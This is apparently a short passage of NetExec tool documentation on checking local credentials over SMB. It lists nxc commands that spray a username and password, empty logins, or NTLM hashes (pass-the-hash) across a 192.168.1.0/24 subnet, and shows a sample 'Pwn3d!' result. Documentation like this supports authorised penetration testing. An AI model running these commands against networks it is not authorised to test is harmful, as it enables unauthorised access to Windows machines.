# Checking credentials (Local)

### User/Password/Hashes

Adding `--local-auth` to any of the authentication commands with attempt to logon locally.

```
#~ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --local-auth
#~ nxc smb 192.168.1.0/24 -u '' -p '' --local-auth
#~ nxc smb 192.168.1.0/24 -u UserNAme -H 'LM:NT' --local-auth
#~ nxc smb 192.168.1.0/24 -u UserNAme -H 'NTHASH' --local-auth
#~ nxc smb 192.168.1.0/24 -u localguy -H '13b29964cc2480b4ef454c59562e675c' --local-auth
#~ nxc smb 192.168.1.0/24 -u localguy -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c' --local-auth
```

Results will display the hostname next to the user:password

```
	SMB         192.168.1.101    445    HOSTNAME          [+] HOSTNAME\Username:Password (Pwn3d!)  
```
